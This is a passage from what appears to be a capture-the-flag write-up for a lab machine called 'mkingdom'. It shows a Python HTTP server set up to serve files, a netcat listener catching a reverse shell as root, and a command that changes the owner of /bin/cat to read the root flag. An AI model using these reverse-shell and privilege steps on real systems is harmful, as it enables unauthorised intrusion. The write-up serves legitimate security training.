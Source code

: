 ```bash
python -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
```

Finally start a netcat listener.

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.11.83.38] from (UNKNOWN) [10.10.24.178] 44416
bash: cannot set terminal process group (2877): Inappropriate ioctl for device
bash: no job control in this shell
root@mkingdom:~# 
```

## And We get the root shell. 

Even as root we can't read the flags :) 

```bash 
root@mkingdom:~# cat /root/root.txt
cat /root/root.txt
cat: /root/root.txt: Permission denied
```

For this just run:
```bash
chown root /bin/cat
```